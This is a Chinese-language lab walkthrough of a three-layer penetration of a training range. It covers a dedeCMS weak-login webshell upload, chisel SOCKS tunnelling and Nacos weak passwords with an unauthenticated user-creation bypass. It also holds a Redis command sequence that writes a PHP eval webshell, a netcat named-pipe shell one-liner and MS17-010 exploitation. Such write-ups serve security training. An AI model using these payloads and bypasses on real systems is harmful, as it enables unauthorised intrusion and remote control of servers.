# 无境靶场：州弟学安全-三层综合渗透

跟着wp 复现😭

# 外围-192.168.111.20

## nmap

```bash
Nmap scan report for 192.168.111.20
Host is up, received reset ttl 127 (0.075s latency).
Scanned at 2026-05-04 20:21:07 EDT for 2s
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 127
135/tcp  open  msrpc        syn-ack ttl 127
139/tcp  open  netbios-ssn  syn-ack ttl 127
445/tcp  open  microsoft-ds syn-ack ttl 127
3306/tcp open  mysql        syn-ack ttl 127
5985/tcp open  wsman        syn-ack ttl 127
8080/tcp open  http-proxy   syn-ack ttl 127
```

### 8080 dedeCMS



```bash
http://192.168.111.20:8080/dede/login.php
```

后台弱口令 admin:admin

直接文件管理上传木马文件





双网卡



‍

一开始隧道一直挂不山 （ fscan 也是一直扫不到内网ip, 猜测是当前进程没有 sock 权限？（坑点1

```bash
C:\test>.\chisel.exe client 192.168.111.25:9999 R:0.0.0.0:1082:socks                                                                                                                                               
.\chisel.exe client 192.168.111.25:9999 R:0.0.0.0:1082:socks                                                                                                                                                       
2026/05/05 09:33:03 client: Connecting to ws://192.168.111.25:9999                                                                                                                                                 
2026/05/05 09:33:03 client: Connection error: dial tcp 192.168.111.25:9999: connectex: An attempt was made to access a socket in a way forbidden by its access permissions.                                        
2026/05/05 09:33:03 client: Retrying in 100ms...                                                                                                                                                                   
2026/05/05 09:33:03 client: Connection error: dial tcp 192.168.111.25:9999: connectex: An attempt was made to access a socket in a way forbidden by its access permissions. (Attempt: 1/unlimited) 
```

迁移进程 然后再试就可以了（迁移进程后 fscan也可以正常扫到内网ip了



```bash
.\chisel.exe server -p 9999 --reverse --host 0.0.0.0


.\chisel.exe client 192.168.111.25:9999 R:0.0.0.0:1082:socks
```

# 内网192.168.52.4-nacos

8848 端口 可能是 `nacos`



```bash
http://192.168.52.4:8848/nacos/
```

[Nacos漏洞复现总结 - BattleofZhongDinghe - 博客园](https://www.cnblogs.com/thebeastofwar/p/17920565.html)

可以尝试弱口令

```bash
admin
admin123456
admin123
test
test1
123456
```

‍

有的版本直接访问就可以获取到敏感信息

```bash
/nacos/v1/auth/users?pageNo=1&pageSize=100
/nacos/v1/cs/configs?dataId=&group=&appName=&config_tags=&pageNo=1&pageSize=10&tenant=dev&search=accurate
/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageS%20ize=10&keyword
```



‍



正常登录的接口是 `/nacos/v1/auth/users/login`

把`/login` 去掉就可以任意用户创





```bash
flag{7b4b73d7e9ef1c5959efbb820de2495e}
```

password 配置里面有个 密码

```bash
P@ssw0rd_sec
```

# 内网192.168.52.4-redis

## redis 写木马

​`192.168.52.4:80`​ 也是个web （目录扫描）`phpinfo.php`,可以找到web 根目录，利用redis 写木马

‍

```bash
auth P@ssw0rd_sec
config set dir /var/www/html/
config set dbfilename shell.php
set x "\r\n\r\n<?php @eval($_POST['cmd']); ?>"
save
```





蚁剑配置代理，连shell





还有层内网



‍

# 192.168.52.4-shell

拿到稳定的shell 后 挂隧道

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f
```



chisel 工具有点 麻烦啊，下次考虑换个代理工具吧

```py
attack:
.\chisel.exe server -p 9999 --reverse --host 0.0.0.0

A:
.\chisel.exe client 192.168.111.25:9999 R:0.0.0.0:1002:localhost:1002
.\chisel.exe server -p 9999 --reverse --socks5
#.\chisel.exe server -p 9999 --reverse --host 0.0.0.0

B:
chisel client http://192.168.52.2:9999 R:0.0.0.0:1002:socks
```

‍

​`192.168.37.6`



‍

ms-17-010 直接打

‍




